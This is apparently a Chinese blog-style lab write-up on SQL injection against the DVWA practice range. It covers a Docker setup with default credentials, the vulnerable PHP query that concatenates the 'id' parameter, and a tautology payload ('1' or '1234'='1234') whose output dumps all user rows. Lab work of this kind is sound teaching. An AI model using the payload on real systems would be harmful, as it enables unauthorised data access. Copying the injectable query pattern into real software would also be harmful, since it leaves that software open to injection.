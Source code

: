 ### 前置知识

- 当 `web` 应用向后台数据库传递 `SQL` 语句进行数据库操作时，如果对用户输入的参数没有经过严格的过滤处理，那么攻击者就可以构造特殊的 `SQL` 语句，直接输入数据库引擎执行，获取或修改数据库中的数据。
- 二次注入是攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到 `SQL` 查询语句所导致的注入。
- 手动注入和使用 `sqlmap` 自动注入的方法。

### 配置环境

在我做这个实验的时候，使用的是 `LAMP` 环境，在环境中下载 `DVWA` 靶场，配置相关设置，我的实验环境如下：

```
OS: Ubuntu 20.04.3 LTS
Apache: Apache/2.4.41 (Ubuntu)
MySQL Version: 8.0.26-0ubuntu0.20.04.2
PHP Version: 8.0.10
phpMyAdmin Version: 5.1.1
```

在我创作这篇博客时，我使用的是 `docker` 来进行环境配置。首先执行 `docker search dvwa` 查找镜像，然后执行 `docker pull [citizenstig/dvwa](选一个最靠前的)` 下载镜像，最后，执行 `docker run --name dvwa citizenstig/dvwa` 生成容器，最后，使用 `vscode` 打开容器，配置端口（80端口）转发。

进入网站 http://localhost/dvwa/setup.php ，登录（默认用户为 `admin` ，密码是 `password`）。

![image-20220619222909001](http://image.ceyewan.top/typora/image-20220619222909001.png)

### Low 等级

点击 `DVWA Security` ，修改等级为 `low` 。

#### 分析 php 源码

进入 `SQL injection` 。首先，我们查看源代码，这里就是接收了一个参数 `id` ，然后执行 `sql` 语句，并且是字符型的：

```php
$id = $_REQUEST[ 'id' ];
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
// id 有引号，字符型
```

#### 手动注入

因此，在表单里插入 `SQL` 语言（例如 `1' or '1234'='1234` ，提交表单，就可以得到一些数据，分析可知，这里的条件一定满足，因此返回的是所有的数据：

```
ID: 1' or '1234'='1234
First name: admin
Surname: admin
ID: 1' or '1234'='1234
First name: Gordon
Surname: Brown
ID: 1' or '1234'='1234
First name: Hack
Surname: Me
ID: 1' or '1234'='1234
First name: Pablo
Surname: Picasso
ID: 1' or '1234'='1234
First name: Bob
Surname: Smith
```
